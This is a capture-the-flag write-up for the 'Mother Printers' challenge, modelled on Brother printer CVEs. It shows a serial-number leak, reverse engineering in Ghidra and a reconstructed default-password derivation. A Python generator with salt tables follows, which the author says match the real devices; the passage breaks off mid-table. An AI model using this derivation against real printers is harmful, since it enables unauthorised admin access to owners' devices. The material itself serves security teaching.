# Mother Printers

## Video Walkthrough

[](https://www.youtube.com/watch?v=ebNYtX_8lOY "Hacking Mother Printers - From Serial Leak to Admin SSRF (Print2Own Challenge)")

## Challenge Description

> Print2Own: https://app.hackinghub.io/hubs/mother-printers

## Introduction

My first [HackingHub challenge](https://app.hackinghub.io/hubs/mother-printers) chains together multiple vulnerabilities, inspired by [Brother Printers CVEs](https://github.com/sfewer-r7/BrotherVulnerabilities) found by [Stephen Fewer](https://x.com/stephenfewer) and later [used in a Pwn2Own chain](https://starlabs.sg/blog/2025/11-breaking-into-a-brother-mfc-j1010dw) by [STAR Labs](https://x.com/starlabs_sg) (well, nearly). I also made a [CVE analysis/review video](https://www.youtube.com/watch?v=--SaQKmcyiU) on the topic 🙂

I tried to ensure the challenge architecture would recreate the original vulnerabilities as closely as possible without making it unreasonably difficult to solve (or develop). Hope you enjoy! 💜

## Solution

When we visit the URL provided, we'll find a website for a printer manufacturer called "Mother Printers Inc" 🖨


We can't access the admin page as it requires local access. We'll return to that later. I'll take a moment here to flex the light/dark mode functionality 😎 See, it's not that hard, Medium.com (and so many others) 🙄



Now that you're awake, I'll switch back to dark mode. There's a firmware page that has a download link 🔗



### Open Directory Listing

When downloading the file, we should observe the endpoint (`/printer_release/printer`). A "release" often has multiple files; let's try to access `/printer_release/` directly.



We found an open directory listing, which seems to be exposing some sensitive files! We've got our first flag, a config file containing an IP/URL, and another binary: `printer_build` 🔎

### Initial Analysis

Let's start by performing some basic file checks on the binaries. We'll see that the `printer` has no stack canaries, so we should be on the lookout for a buffer overflow. PIE is disabled, so debugging and exploit development will be simplified (fixed addresses). However, the binary is stripped, so static reversing will be more challenging (no symbols).

```bash
file printer; checksec --file printer

printer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cce9d052721d30218c3e0cb4040847c428c31d42, for GNU/Linux 3.2.0, stripped

[*] '/home/crystal/Desktop/chall/solve/printer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

On the other hand, the `printer_build` binary has all protections enabled and is also stripped of symbols.

```bash
file printer_build; checksec --file printer_build

printer_build: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ed1780f7df543e75dd53639245d3fba959fe323e, for GNU/Linux 3.2.0, stripped

[*] '/home/crystal/Desktop/chall/solve/printer_build'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can check the strings (> 10 chars) for a quick insight. We might find some hardcoded secrets, make some guesses about the functionality of the programs, and identify interesting values to look for when reverse engineering.

Starting with `printer`, it looks like we have some HTTP functionality, a login form, a header with a flag, various file paths/endpoints, and what looks like a serial number (`SN6863228168`) and password (`dBSEME&P*YRTVPjh$4mm-0cX`).

```bash
strings -n 10 printer

SN6863228168
serial,model,node,location,contact,firmware,flag2
%s,MPI-MOM-1337,node-42,Factory A,support@motherprinters.lol,fw-4.2.0,%s
<html><head><title>Mother Printers Console</title></head><body><h2>Mother Printers
 Device Console</h2><form method='POST' action='/login'>User: <input name='username' value='admin'/><br/>Pass: <input name='password' type='password'/><br/><input type='submit' value='Sign in'/></form></body></html>
dBSEME&P*YRTVPjh$4mm-0cX
Set-Cookie: AuthCookie=%s; HttpOnly
X-Flag-3: %s
Location: /stats
{"status":"queued","job_id":"job-1234"}
/etc/mnt_info.csv
/jobs/manage
printer: invalid PORT '%s' (using 8000)
```

Moving to `printer_build`, it uses SHA256 hashing somewhere, defines a serial and password, and apparently compiles `printer.c`

```bash
strings -n 10 printer_build

SHA256 failed
usage: %s <printer.c> [-o printer]
#define SERIAL "%s"
#define DEFAULT_ADMIN_PASSWORD "%s"
gcc -o %s %s -fno-stack-protector -fno-omit-frame-pointer -no-pie -O0 -include build_cfg.h %s -lcrypto
printer_build: serial=%s
printer_build: default_admin_password=%s
```

We could try and run the binaries with `ltrace` and `strace`, e.g. here's the output from running `printer`

```bash
ltrace ./printer

getenv("PORT")                                                          = nil
getenv("FLAG_2")                                                        = nil
getenv("FLAG_3")                                                        = nil
getenv("FLAG_4")                                                        = nil
socket(2, 1, 0)                                                         = 3
setsockopt(3, 1, 2, 0x7ffff5ec4ca4)                                     = 0
memset(0x7ffff5ec4c90, '\0', 16)                                        = 0x7ffff5ec4c90
inet_addr("0.0.0.0")                                                    = 0
htons(8000, 0x40572c, 0, 0x7ffff5ec4c3c)                                = 0x401f
bind(3, 0x7ffff5ec4c90, 16, 0x7ffff5ec4c90)                             = 0
listen(3, 10, 16, 0x7f338db28777)                                       = 0
fprintf(0x7f338dbf2680, "printer: listening on 0.0.0.0:%d"..., 8000printer: listening on 0.0.0.0:8000
)    = 35
accept(3, 0x7ffff5ec4c70, 0x7ffff5ec4c6c, 0x7ffff5ec4c70
```

It's listening on port 8000. Let's try to make a `curl` request.

```bash
curl http://127.0.0.1:8000

<html><head><title>Mother Printers Console</title></head><body><h2>Mother Printers – Device Console</h2><form method='POST' action='/login'>User: <input name='username' value='admin'/><br/>Pass: <input name='password' type='password'/><br/><input type='submit' value='Sign in'/></form></body></html>
```

We get the login form. We could continue in this fashion, feeding in the various endpoints we located with `strings`. However, it would be easier to reverse engineer the code with Ghidra - I just want to demonstrate various tools and approaches.

Just before we do that, let's try and run the `printer_build` binary.

```bash
./printer_build

usage: ./printer_build <printer.c> [-o printer]
```

Since we don't have the original C code, we'll need to reverse both binaries and see what's going on, starting with `printer` 🖨

#### Static Analysis (ghidra)

The binary is stripped, so we won't see a `main` function. Instead, we'll start off at the `entry` function, but we can rename the first parameter passed to the `__libc_start_main` function to `main`



A quick review of the main function shows that it launches an HTTP server (defaults to port 8000) and waits for connections. It also loads three flags from environment variables, which will make our lives significantly easier as we can "follow the flags" to determine interesting functions, and which order to review them. Notice that the ENV vars are first loaded to local variables, then assigned to some pointers (if they weren't empty). These are the pointers we'll want to follow, so rename accordingly.

```c
if ((local_30 != (char *)0x0) && (*local_30 != '\0')) {
	flag2 = local_30;
}
if ((local_38 != (char *)0x0) && (*local_38 != '\0')) {
	flag3 = local_38;
}
if ((local_40 != (char *)0x0) && (*local_40 != '\0')) {
	flag4 = local_40;
}
```

Right-click `flag2` > References > Find references to flag2:



We've already seen the write statement; we want to know where it's read (and subsequently printed). Double-click on the READ operation and it will jump to the relevant code. I took the liberty of renaming the function and variables according to the apparent functionality; a useful process that quickly makes the code more readable, e.g. the `http_handler` is referenced 12 times throughout the application, so it now displays as such.

```c
void print_serial(undefined4 param_1)
{
	size_t buffer_len;
	char buffer [512];

	snprintf(buffer,0x200,"serial,model,node,location,contact,firmware,flag2\n%s,MPI-MOM-1337,node-42,Factory A,sup port@motherprinters.lol,fw-4.2.0,%s\n","SN6863228168",flag2);

	buffer_len = strlen(buffer);
	http_handler(param_1,"HTTP/1.1 200 OK\r\nContent-Type: text/csv\r\nContent-Length: %zu\r\n\r\n%s",buffer_len,buffer);
	return;
}
```

We've learned that there is an endpoint to display the printer information, including the serial number (and a flag). To trace our way back through the flow, we can right-click the function name and "find references to" again, double-click the unconditional call and see the associated path; `/etc/mnt_info.csv`



Now is a good time to rename the other functions in line with the associated endpoints 💡

_FYI: another effective way to locate this functionality would have been a string search (`Search` -> `For Strings`). From here we can select the string we're interested in, then double-click the references in the assembly window to jump to the relevant code._



### Info Leak (serial number)

We can make a `curl` request to the `/etc/mnt_info.csv` endpoint, obtaining the serial and flag2.

```bash
curl http://127.0.0.1:8000/etc/mnt_info.csv

serial,model,node,location,contact,firmware,flag2
SN2459758600,MPI-MOM-1337,node-42,Factory A,support@motherprinters.lol,fw-4.2.0,NO_FLAG_SET
```

Since we're testing locally, there is no flag set. Remember the `config.json` file found earlier in the `/printer_release` directory of the website? Let's try to repeat the request there.

```bash
curl http://REMOTE_SERVER/etc/mnt_info.csv

serial,model,node,location,contact,firmware,flag2
SN3342672508,MPI-MOM-1337,node-42,Factory A,support@motherprinters.lol,fw-4.2.0,flag2{fake_flag}
```

### Auth Bypass (password generation)

If we look at the references to flag3, we'll find it's printed upon successful login. We can also see a hardcoded username (`admin`) and password (`dBSEME&P*YRTVPjh$4mm-0cX`).



Let's try to login, ensuring we have the verbose flag set so that we can see the response headers. There we will find an `AuthCookie`, along with our third flag (not set).

```bash
curl --data-urlencode 'username=admin' --data-urlencode 'password=dBSEME&P*YRTVPjh$4mm-0cX' http://127.0.0.1:8000/login -v

*   Trying 127.0.0.1:8000...
* Connected to 127.0.0.1 (127.0.0.1) port 8000 (#0)
> POST /login HTTP/1.1
> Host: 127.0.0.1:8000
> User-Agent: curl/7.88.1
> Accept: */*
> Content-Length: 54
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 302 Found
< Set-Cookie: AuthCookie=947997c702618494cc6e130d30182f86; HttpOnly
< X-Flag-3: NO_FLAG_SET
< Location: /stats
< Content-Length: 0
<
* Connection #0 to host 127.0.0.1 left intact
```

That was easy! Now we have a problem though: how are we going to find the password for the remote printer? The serial and password were both hardcoded into the local binary. It's time we opened `printer_build` in Ghidra to see how the whole thing is put together.

Since the binary is also stripped (like the real firmware!), we'll start off at the `entry` function and move into `main`



I like to trace my way back from the end goal. Notice lines 46-47 where the serial and password are printed? We'll want to rename those variables (`local_1165` -> `serial`, `local_1158` -> `password`). Doing so will make it immediately clear where they are used elsewhere in the code. Two function calls stand out:

```c
FUN_00103279(serial);
FUN_001034d1(serial,password,0x40);
```

Let's review the first function. I'll add some comments instead of renaming variables this time.

```c
void FUN_00103279(undefined1 *param_1)
{
	uint uVar1;
	int iVar2;
	time_t tVar3;
	int local_1c;

	tVar3 = time((time_t *)0x0); // get the current time
	uVar1 = getpid(); // get the process id
	srand(uVar1 ^ (uint)tVar3); // XOR the time + PID and use a seed for srand
	*param_1 = 0x53; // first char of the serial = 'S'
	param_1[1] = 0x4e; // second char of the serial = 'N'
	// loop through each digit (2:12)
	for (local_1c = 2; local_1c < 0xc; local_1c = local_1c + 1) {
		iVar2 = rand(); // generate a random value
		// current_digit = (rand() % 10) + '0'
		param_1[local_1c] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
	}
	param_1[0xc] = 0; // null terminator
	return;
}
```

TL;DR: it's generating a random 12-byte serial number, using the current time and process ID as a seed, e.g. `SN1234567890`.

We can rename the function `generate_serial` and take a look at the next one. Any guesses what it's going to do?

")

It's gonna generate the password from the serial number! You know... the one that we can leak remotely, without any authentication 😈

There are two other functions called during this process.

")
")

A nice shortcut here is to copy the three decompiled functions from Ghidra and ask ChatGPT: "given this ghidra output, I want you to recreate the functionality in the original C code, with renamed variables and minimal, concise comments" 🙏 This would work even better if Ghidra was using MCP but I _still_ haven't tested it out 😆

```c
#include <string.h>
#include <openssl/sha.h>
#include <openssl/evp.h>

typedef unsigned char u8;
typedef unsigned int u32;

extern const u8 *SALT_TABLE[];   // table of 8-byte salts
extern const u32 INDEX_TABLE[];  // lookup table (low 8 bits used to pick salt)

/* sum of decimal digits in first 12 chars of serial */
static u8 sum_digits_first12(const char *s){
    u8 sum = 0;
    for(int i=0;i<12;i++){
        unsigned char c = (unsigned char)s[i];
        if(c >= '0' && c <= '9') sum += (u8)(c - '0');
    }
    return sum;
}

/* apply the substitution map to obfuscate certain chars */
static void map_chars(char *s,int n){
    for(int i=0;i<n && s[i];i++){
        switch((unsigned char)s[i]){
            case 'I': s[i] = '$'; break;
            case 'O': s[i] = ':'; break;
            case 'Z': s[i] = '&'; break;
            case 'b': s[i] = '*'; break;
            case 'l': s[i] = '#'; break;
            case 'o': s[i] = '?'; break;
            case 'q': s[i] = '-'; break;
            case 'v': s[i] = '@'; break;
            case 'y': s[i] = '>'; break;
            case 'z': s[i] = '%'; break;
        }
    }
}

/* generate the 24-char token from serial and salt */
void derive_token_from16(const char in16[16], char out[], unsigned long out_cap){
    u8 preimage[24];       // 16 serial bytes + 8 salt bytes
    u8 digest[32];         // SHA-256 output
    unsigned char b64[72]; // base64 buffer
    char token[33];
    int b64len, outlen = 24;

    // pick salt index based on digit-sum
    u8 idx = sum_digits_first12(in16);
    const u8 *salt8 = SALT_TABLE[ INDEX_TABLE[idx] & 0xff ];

    // copy serial (pad NULs with '0')
    for(int i=0;i<16;i++) preimage[i] = in16[i] ? (u8)in16[i] : (u8)'0';

    // append reversed salt, each byte decremented by 1
    for(int i=0;i<8;i++) preimage[16 + i] = (u8)(salt8[7 - i] + 0xff);

    // SHA256(preimage)
    if(!SHA256(preimage, sizeof(preimage), digest)) return;

    // base64-encode and truncate to 24 chars
    b64len = EVP_EncodeBlock(b64, digest, 32);
    if(b64len > outlen) b64len = outlen;
    memcpy(token, b64, (size_t)b64len);
    token[b64len] = '\0';

    // apply substitution mapping
    map_chars(token, b64len);

    // copy result to output buffer
    if(out_cap){
        unsigned long n = out_cap - 1;
        unsigned long i = 0;
        for(; i<n && token[i]; i++) out[i] = token[i];
        out[i] = '\0';
    }
}
```

**Steps:**

1. Calculate index for the small lookup table by summing the serial digits
2. Use that table entry to select an 8-byte salt from the SALT table
3. Reverse the 8 salt bytes and subtract 1 from each
4. Build a 24-byte buffer: serial\[0..15\] (zero out missing bytes) + the 8 transformed salt bytes
5. SHA256(buffer) -> 32 bytes
6. Base64-encode the 32-byte digest
7. Keep the first 24 characters of the Base64 output
8. Follow mapping to substitute certain alpha chars with special chars (security through obscurity ftw)
9. Trim the result to 24 characters -> default password

_Note: this is almost identical to the original CVE - even the salt table and character substitutions are the same! To make matters worse, the real printers trimmed the password to 8-bytes_

Of course, players had no way to know this, so would need to check the SALT table in the binary.



There are many ways to extract this, but I typically highlight the data in the assembly window, right-click and `Copy Special`, in this case selecting the "Data" format. You might prefer to use a command line tool for better formatting. The same must be repeated for the `salt_index`, except you should copy using the `raw` format if working with Ghidra.

We now have all the pieces we need to generate default passwords using only a serial number!

```python
#!/usr/bin/env python3
import argparse
import base64
import csv
import hashlib
import requests

# --- Brother-style tables (must match device) ---
SALT_LOOKUP_TABLE = [0x06, 0x1A, 0x80, 0x93, 0x90, 0x60, 0xA4, 0x18, 0x76, 0xA8, 0xFA, 0x98, 0x58, 0x25, 0x5F, 0xBA,0x24, 0xCF, 0xDD, 0xB6, 0xD0, 0xE3, 0x7A, 0x68, 0x41, 0x8B, 0x21, 0x15, 0x7E, 0x65, 0x70, 0x7F, 0x8C, 0x91, 0x3B, 0xFC,0x13, 0x4A, 0xBE, 0xD7, 0x6C, 0x99, 0xC3, 0xD1, 0x51, 0x35, 0xDF, 0x23, 0xB0, 0x3F, 0x3D, 0x16, 0x29, 0xA1, 0x59, 0xCA, 0xA2, 0x5C, 0x43, 0x0B, 0xA5, 0x36, 0xF0, 0xFE, 0x3E, 0xED, 0xF2, 0xE6, 0xEA, 0x54, 0x66, 0x7D, 0xEE, 0x3C, 0x50, 0xEF,0x9E, 0xD3, 0xB1, 0xF7, 0xAC, 0x5A, 0x6E, 0x12, 0x2A, 0x01, 0x46, 0x8F, 0x6B, 0x88, 0x0E, 0x52, 0xF9, 0x81, 0xA0, 0x02,0xC1, 0xF1, 0xE9, 0xC2, 0xF6, 0x33, 0xCB, 0xB3, 0x73, 0x17, 0xFD, 0x6F, 0xF4, 0xEC, 0x84, 0xC6, 0x47, 0xCE, 0x9F, 0xD5, 0x92, 0x85, 0x53, 0x26, 0x27, 0x62, 0xEB, 0xAE, 0x3A, 0x1F, 0x0F, 0x94, 0x95, 0x82, 0x8E, 0x42, 0x28, 0xB9, 0xBF, 0xAF,0xD4, 0x48, 0xD9, 0xC5, 0x4C, 0x64, 0x2B, 0x8D, 0xF8, 0xAA, 0xC4, 0x63, 0x87, 0xE4, 0x1D, 0xA6, 0x14, 0xCD, 0xBB, 0xC0,0xE5, 0xDA, 0x37, 0xC9, 0xE8, 0xB8, 0x67, 0xDC, 0x5D, 0xA7, 0xAD, 0x79, 0x44, 0xF3, 0x83, 0xA9, 0x1B, 0x96, 0x89, 0xAB, 0x45, 0xBC, 0x1C, 0xB4, 0xE1, 0x20, 0x2F, 0x49, 0x22, 0x86, 0xDB, 0x4E, 0xE0, 0x9B, 0x10, 0x19, 0x97, 0x61, 0x40, 0x78,0x5E, 0x39, 0xCC, 0x0D, 0x09, 0x9D, 0x34, 0x0C, 0x2E, 0x0A, 0x77, 0x6D, 0xDE, 0xC7, 0xD8, 0xA3, 0xE2, 0x56, 0xB5, 0x4B,0x38, 0x74, 0x8A, 0xBD, 0x6A, 0x4F, 0x07, 0x03, 0x05, 0xFF, 0xF5, 0x31, 0x1E, 0xE7, 0xD2, 0x2D, 0x69, 0xC8, 0x5B, 0xD6, 0x57, 0x75, 0x7C, 0xB2, 0x72, 0xB7, 0x2C, 0xFB, 0x11, 0x9C, 0x7B, 0x32, 0x55, 0x30, 0x71, 0x04, 0x9A, 0x4D, 0x08, 0x100]

SALT_DATA_TABLE = ["aiaFrJAn", "FuUcjKwa", "cMnDTitZ", "RuSfzwJC", "XXrLDVub", "znimXRSU", "dLdJgcZf", "rgm32u2x","7HOLDhk'", "ENbuNZVy", "eCd6Ygyf", "gmLt2GuL", "5dhjHet3", "nPtN7h23", "47rdTTV7", "KAkaSzWh", "s3m7wwW2", "wtBGnGjn","H3LyF$dd", "H6EtSew2", "D9N8iJBB", "tPT4ZKm3", "XEEV4tjf", "zDXx93rw", "HKkmbGjD", "ng5sLECe", "QrPVDngu", "LPMhpZe9","uLzhjUwc", "Sa9QBKW2", "AfrPdj7y", "ujmt9s72", "n8Y7XrFx", "8xeRU7rW", "RUzpQznp", "%hU5RMxP", "ipaZKMEW", "chP5cHCy","b5UJabgU", "WtZsF7VF", "xk8wg669", "gAVynzbw", "GuRgNxkm", "UBCAUb85", "CQgQhyfp", "fcEegCtB", "5LSpTNPN", "dzrQdahF","kD4fHLhM", "mHQ6QAUg", "TjZ6kiAb", "5SMdwEK6", "RD2ytHHH", "XgQHBfBY", "6ZZRVbHx", "BNDUsFCC", "iSwrrtpr", "ucBFJbGj","Nzs7rhKJ", "uHugTJX5", "aXN3FsUF", "uyHDwwUK", "tbnJTYje", "SmgfLZ2n", "4sXy9D8j", "YLVSee68", "3U5TbNNS", "QjYfTBKu","T*8AF8dk", "F8xQDTrW", "Pyeda62U", "33sghDrE", "ThiW9Naz", "BU9TDd7k", "72sgwM&G", "VkV+uSUt", "HpTdi9jL", "G3AbGyAH","zbW8YCSy", "eKB25SCe", "rbzpCtQN", "EZSRB966", "nJAxxUbS", "7GZRAG9E", "PaMCwYGQ", "TZy2AeYr", "jMgYEPUT", "6QAepcUc","jdWU9pXy", "CeZs6T8g", "jEEDBNPn", "fCHg4V5W", "rTUUjyPG", "3L5SNJhr", "XbXK4Lg9", "ZcdGAzLH", "ANfMJ&6p", "S4URfyzc","Pai9muCn", 